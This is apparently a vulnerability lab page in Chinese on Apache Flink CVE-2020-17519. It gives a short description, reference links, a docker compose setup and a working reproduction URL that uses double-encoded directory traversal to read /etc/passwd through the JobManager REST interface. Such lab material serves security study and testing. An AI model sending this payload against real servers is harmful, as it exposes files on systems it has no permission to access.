

Apache Flink jobmanager/logs 路径穿越漏洞（CVE-2020-17519）¶
Apache Flink 是一个开源的分布式流处理和批处理大数据计算引擎。
Apache Flink 1.11.0 版本中引入的一个更改（同时也存在于 1.11.1 和 1.11.2 版本中）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任意文件。
参考链接：
- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519
环境搭建¶
执行如下命令启动一个 Apache Flink jobmanager 1.11.2：
docker compose up -d
环境启动后，访问 http://your-ip:8081 即可查看到 Apache Flink 的管理页面。
漏洞复现¶
通过以下 URL 可以读取服务器上的 /etc/passwd 文件内容：
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
